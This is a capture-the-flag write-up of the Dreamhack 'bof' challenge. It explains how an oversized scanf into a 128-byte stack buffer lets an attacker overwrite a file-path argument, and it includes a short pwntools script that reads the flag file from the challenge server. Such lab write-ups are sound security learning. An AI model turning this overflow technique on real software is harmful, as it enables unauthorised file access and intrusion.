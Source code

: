 # Dreamhack - bof
**Author :** Dandelion

###################
### 1. Analysis ###
###################

In the main() function, there is a buffer buf of size 128 bytes.
After reading user input with scanf("%144s", buf), the program calls read_cat(&local_18).
The variable local_18 is a 4-byte value located directly after buf on the stack. 

##########################
### 2. Vulnerabilities ###
##########################

There is a classic buffer overflow vulnerability.
Since scanf reads up to 144 bytes into a 128-byte buffer, it allows us to overwrite the value of local_18.
The overwritten local_18 is then used as the argument to read_cat(), which attempts to open and read from that file path.

#######################
### 3. Exploitation ###
#######################

from pwn import *

p = remote('host3.dreamhack.games', 18281)
read_cat = 0x401236

payload = b'A' * 128
#payload += b'B' * 8 (for RBP)
payload += b'/home/bof/flag'

p.sendline(payload)
p.interactive()

The file we want to read is /home/bof/flag.
I crafted a payload where:
I filled the first 128 bytes with junk ('A' * 128).
Then, I wrote the string /home/bof/flag\x00 starting at the local_18 position, directly after the buffer.
As a result, when read_cat() is called with &local_18, it receives the string /home/bof/flag and successfully opens the file.

#################
### 4. Result ###
#################

I successfully read the contents of /home/bof/flag and got the flag.
The exploitation worked by simply overflowing the buffer and placing the correct file path at the expected argument location.

// [ NOTE ]
// At first, I had no idea what the read_cat function was doing, so I was kind of lost.
// But through debugging, I realized it's really important to understand how open/read work together.
// Also, just overflowing the buffer with "A"s isn’t enough —
// you need to clearly understand what’s getting placed on the stack for the exploit to work properly.
// From now on, I won’t blindly spam "A"s — I’ll think carefully about what I’m writing and why.
